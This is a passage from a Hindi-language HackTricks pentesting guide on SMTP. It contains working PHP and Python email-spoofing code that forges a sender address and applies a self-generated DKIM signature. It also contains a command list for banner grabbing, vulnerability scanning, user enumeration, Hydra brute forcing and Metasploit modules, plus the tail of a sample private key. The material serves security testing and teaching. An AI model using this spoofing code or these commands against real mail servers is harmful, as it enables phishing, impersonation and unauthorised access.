422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
-----END RSA PRIVATE KEY-----
```
{% endhint %}

**या आप इसे मैन्युअल रूप से कर सकते हैं:**

{% tabs %}
{% tab title="PHP" %}
<pre class="language-php"><code class="lang-php"><strong># यह एक बिना हस्ताक्षर वाला संदेश भेजेगा
</strong><strong>mail("your_email@gmail.com", "Test Subject!", "hey! This is a test", "From: administrator@victim.com");
</strong></code></pre>
{% endtab %}

{% tab title="Python" %}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```
{% endtab %}
{% endtabs %}

### **अधिक जानकारी**

**इन सुरक्षा उपायों के बारे में अधिक जानकारी प्राप्त करें** [**https://seanthegeek.net/459/demystifying-dmarc/**](https://seanthegeek.net/459/demystifying-dmarc/)

### **अन्य फ़िशिंग संकेतक**

* डोमेन की आयु
* आईपी पते की ओर इशारा करने वाले लिंक
* लिंक हेरफेर तकनीकें
* संदिग्ध (असामान्य) अटैचमेंट
* टूटी हुई ईमेल सामग्री
* उपयोग किए गए मान जो मेल हेडर से भिन्न हैं
* एक मान्य और विश्वसनीय SSL प्रमाणपत्र का अस्तित्व
* वेब सामग्री फ़िल्टरिंग साइटों पर पृष्ठ का सबमिशन

## SMTP के माध्यम से एक्सफिल्ट्रेशन

**यदि आप SMTP के माध्यम से डेटा भेज सकते हैं** [**यह पढ़ें**](../../generic-methodologies-and-resources/exfiltration.md#smtp)**.**

## कॉन्फ़िग फ़ाइल

### पोस्टफिक्स

आमतौर पर, यदि स्थापित है, तो `/etc/postfix/master.cf` में **स्क्रिप्ट होती हैं जो निष्पादित होती हैं** जब उदाहरण के लिए एक नया मेल किसी उपयोगकर्ता द्वारा प्राप्त होता है। उदाहरण के लिए, पंक्ति `flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}` का अर्थ है कि `/etc/postfix/filtering` को निष्पादित किया जाएगा यदि उपयोगकर्ता मार्क द्वारा एक नया मेल प्राप्त होता है।

अन्य कॉन्फ़िग फ़ाइलें:
```
sendmail.cf
submit.cf
```
## संदर्भ

* [https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/](https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/)
* [https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/](https://www.reddit.com/r/HowToHack/comments/101it4u/what\_could\_hacker\_do\_with\_misconfigured\_smtp/)

## HackTricks स्वचालित आदेश
```
Protocol_Name: SMTP    #Protocol Abbreviation if there is one.
Port_Number:  25,465,587     #Comma separated if there is more than one.
Protocol_Description: Simple Mail Transfer Protocol          #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMTP
Note: |
SMTP (Simple Mail Transfer Protocol) is a TCP/IP protocol used in sending and receiving e-mail. However, since it is limited in its ability to queue messages at the receiving end, it is usually used with one of two other protocols, POP3 or IMAP, that let the user save messages in a server mailbox and download them periodically from the server.

https://book.hacktricks.xyz/pentesting/pentesting-smtp

Entry_2:
Name: Banner Grab
Description: Grab SMTP Banner
Command: nc -vn {IP} 25

Entry_3:
Name: SMTP Vuln Scan
Description: SMTP Vuln Scan With Nmap
Command: nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 {IP}

Entry_4:
Name: SMTP User Enum
Description: Enumerate uses with smtp-user-enum
Command: smtp-user-enum -M VRFY -U {Big_Userlist} -t {IP}

Entry_5:
Name: SMTPS Connect
Description: Attempt to connect to SMTPS two different ways
Command: openssl s_client -crlf -connect {IP}:465 &&&& openssl s_client -starttls smtp -crlf -connect {IP}:587

Entry_6:
Name: Find MX Servers
Description: Find MX servers of an organization
Command: dig +short mx {Domain_Name}

Entry_7:
Name: Hydra Brute Force
Description: Need Nothing
Command: hydra -P {Big_Passwordlist} {IP} smtp -V

Entry_8:
Name: consolesless mfs enumeration
Description: SMTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_version; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_ntlm_domain; set RHOSTS {IP}; set RPORT 25; run; exit' && msfconsole -q -x 'use auxiliary/scanner/smtp/smtp_relay; set RHOSTS {IP}; set RPORT 25; run; exit'

```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### एक हैकर के दृष्टिकोण से अपने वेब ऐप्स, नेटवर्क और क्लाउड का मूल्यांकन करें

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जिनका वास्तविक व्यापार पर प्रभाव है।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
